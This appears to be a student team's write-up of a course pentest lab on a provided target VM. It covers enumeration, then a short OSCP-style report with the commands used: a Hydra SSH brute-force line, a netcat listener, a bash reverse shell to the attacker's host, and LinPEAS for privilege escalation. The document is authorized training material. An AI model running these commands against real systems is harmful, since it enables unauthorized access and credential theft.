Nicolaus Watson, Breanna Taylor, Kevin Hoang, Andrew Carroll and Tommy S Taylor all worked on this together
============================================================================================

Lab: Pentest Practice 1 of 2
============================

Overview
--------

The exploitation phase of a pentest is what authorized (FKA: “white hat”) hackers are famously known for. In this stage, the pentester utilizes exploit tools and techniques to gain access to target systems. One of these tools is Metasploit.
================================================================================================================================================================================================================================================

Today you will perform an attack using a variety of tools and scanners you’ve studied throughout this class, then document findings in an OSCP-style report.
============================================================================================================================================================

Objectives
----------

* Perform enumeration and exploitation against a target system within the context of a pentest
============================================================================================

Resources
---------

* [class-44-target.ova 855 MB Download](https://www.google.com/url?q=https://codefellows.github.io/ops-401-cybersecurity-guide/curriculum/%23downloads-table&sa=D&source=editors&ust=1710538573868586&usg=AOvVaw1-7mbqk-YozqfhzaiM7-Av)
=====================================================================================================================================================================================================================================
* This is your target system today.
=================================
* [Kali VM Download](https://www.google.com/url?q=https://codefellows.github.io/ops-401-cybersecurity-guide/curriculum/%23downloads-table&sa=D&source=editors&ust=1710538573868930&usg=AOvVaw3OJOZslnMSoXRZL-Gj1abH)
==================================================================================================================================================================================================================
* Load up this Kali VM and use these labs to prepare yourself for the final project. Usage of this VM is optional but recommended.
================================================================================================================================
* [OSCP Report Templates Repo](https://www.google.com/url?q=https://github.com/whoisflynn/OSCP-Exam-Report-Template&sa=D&source=editors&ust=1710538573869297&usg=AOvVaw2VlvH2l0yZ6t47gAiG4vtk)
============================================================================================================================================================================================
* To prepare you for the realities of offensive security reporting, you’ll be modeling today’s reporting after these OSCP report templates.
=========================================================================================================================================
* [Metasploitable 2 Exploitability Guide](https://www.google.com/url?q=https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide&sa=D&source=editors&ust=1710538573869631&usg=AOvVaw3mhW5le9t8lr1pcrjaHk7v)
========================================================================================================================================================================================================================
* [Attack Metasploitable 2 Using Metapsloit](https://www.google.com/url?q=https://blog.securelayer7.net/attacking-metasploitable-2-using-metasploit/&sa=D&source=editors&ust=1710538573869836&usg=AOvVaw3JUHmb_4aOQmc42K2-x1Fw)
=============================================================================================================================================================================================================================
* Reference these guides if you get stuck, or would like a more guided experience in lab today. Keep in mind that such write-ups, while useful for learning offensive tactics, will not be provided during the final project.
===========================================================================================================================================================================================================================

Part 1: stagging
================

Part 2: Enumeration
===================

Now that you have imported the target system to Virtualbox, first determine its IP address using an enumeration tool of your choice.

After identifying the target system’s IP, you’ll need to get an idea of its vulnerabilities by using

techniques such as:

Identifying the Target's IP Address

● Port scanning

● Vulnerability scanning

● Banner grabbing/service fingerprinting

Check Network Configuration



Check Running Services



Check Scheduled Tasks



Check Sudo Privileges



Installing the netdiscover



Discover the Target's IP Address





Conduct a Port Scan



Vulnerability Scanning



Banner Grabbing



---

Part 3: Exploitation
====================

It appears this PC has quite a few vulnerabilities; in this stage, you will be performing attack techniques against the target in order to gain access. Techniques you may consider include:

* Brute force authentication
* Shell connectivity
* Privilege escalation

It is important to carefully document your attacks, as you’ll need to craft a detailed report for this lab.

Updating installing hydra



Brute Force Authentication

If  identified services like SSH or FTP, we can use brute force tools to try and guess the credentials.



Shell Connectivity

Installing netcat 



Setting Up Listener:



Try to triggering the reverse shell

Privilege Escalation

After gaining access to a shell, you might find yourself with limited permissions. To escalate privileges, you can use a tool like LinPEAS.

Downloading linPEAS



Make LinPEAS Executable:



To serve files using Python3 HTTP server on Kali:

To download LinPEAS on the target system using wget



---

Part 4: Reporting
=================

Penetration Testing Report for Target VM

Executive Summary

This report documents the penetration testing activities conducted on the designated target VM as part of a cybersecurity training exercise. Our objectives were to identify and exploit vulnerabilities within the system to gain unauthorized access and escalate privileges. The testing uncovered several critical vulnerabilities that were successfully exploited, demonstrating the need for enhanced security measures and system updates.

Introduction

Objective: The purpose of this penetration test was to simulate an external attack on the target VM to identify vulnerabilities, exploit them to gain access, and explore the potential for further system compromise.

Scope

The scope of the test was limited to the target VM provided for the lab exercise. All activities were conducted within the ethical hacking guidelines and with explicit permission.

Methodology

Our approach followed a structured penetration testing methodology consisting of the following phases:

* Enumeration: Identified the target's IP address and performed port scanning and service enumeration.
* Exploitation: Utilized discovered vulnerabilities to gain unauthorized access.
* Post-Exploitation: Conducted privilege escalation and assessed the impact.

Findings and Exploits

1. Brute Force Authentication (Severity: High)

* Description: The SSH service on the target VM was vulnerable to brute force attacks due to weak passwords.
* Proof of Concept: Used Hydra to brute force the SSH credentials.

hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://[target IP]

* Impact: Unauthorized access to the target system.
* Recommendation: Implement strong password policies and account lockout mechanisms.

2. Shell Connectivity (Severity: Critical)

* Description: Gained shell access through a reverse shell technique.
* Proof of Concept: Set up a listener on Kali using Netcat and triggered a reverse shell from the target.
* Listener command:

nc -lvnp 4444

* Target command:

bash -i >& /dev/tcp/[Kali IP]/4444 0>&1

* Impact: Full shell access obtained, allowing for further exploitation.
* Recommendation: Sanitize inputs on all services to prevent command injection attacks.

3. Privilege Escalation (Severity: Critical)

* Description: Escalated privileges to root using a known vulnerability.
* Proof of Concept: Utilized LinPEAS to identify misconfigurations and exploited them.

Copy code

./linpeas.sh

* Impact: Achieved root access, compromising the entire system.
* Recommendation: Regularly update and patch systems. Use tools like LinPEAS for internal audits.

Conclusion

The penetration test revealed significant vulnerabilities in the target VM, underscoring the importance of regular security assessments, strong password policies, and timely system updates. Addressing these vulnerabilities is crucial to strengthening the system's security posture against real-world attacks.

